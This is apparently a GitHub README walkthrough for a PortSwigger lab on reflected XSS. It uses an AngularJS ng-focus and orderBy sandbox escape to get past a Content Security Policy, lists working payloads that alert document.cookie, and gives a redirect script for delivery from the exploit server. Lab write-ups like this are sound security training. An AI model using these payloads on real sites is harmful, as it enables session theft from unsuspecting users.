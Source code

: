 # XSS LAB 26 - Reflected XSS with AngularJS sandbox escape and CSP

## Manual Solution


### 1. Before you start:
- Some useful articles:
    - [Content Security Policy and XSS](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)
    - [Event.composedPath() - MDN](https://developer.mozilla.org/en-US/docs/Web/API/Event/composedPath)
    - [AngularJS ng-focus Directive - GeeksforGeeks](https://www.geeksforgeeks.org/angularjs-ng-focus-directive/)
    - [Window API - MDN](https://developer.mozilla.org/en-US/docs/Web/API/Window)

### 2. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 3. Perform a search.
- Open the Network tab and perform an ordinary search.
- Notice the CSP header. The CSP restricts scripts.
![Search Request Screenshot](./images/CSP.png)

### 4. Exploit Overview
- We can't execute script on the website but the website uses AngularJS. We can execute scripts using `ng-focus`. `ng-focus` triggers a script when focused on an HTML element
- We will create an input element.
- `<input id=x ng-focus=`(If there were no CSP everything we write here would be triggered when the user interacts the input field.) The CSP blocks JavaScript code.

### 5. Bypassing CSP with AngularJS
- To bypass the CSP we can use `$event.composedPath()`. `$event.composedPath()` returns an array that contains the DOM elements in the event's propagation path, with the last element being the window object.
- We will use `|orderBy` to execute script for each tag. The payload becomes:
    - `<input id=x ng-focus=$event.composedPath()|orderBy:'alert(1)'>` 
    - But this payload doesn't work because the CSP block the `'alert(1)'` part of the payload.
- `<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>`  
    - We will store the alert in z which manipulates the CSP.
- If you perform a search with `<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>` an input field will appear on the website. If you interacts with it the alert pop-up appear.

### 6. Executing the Exploit
- Paste the search path in the URL `<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x`
- Copy the URL. Go to the exploit server and insert the body field with the following payload:
```js
<script>
    location='[YOUR_COPY]';
</script>
```
- Deliver to exploit.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_26.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```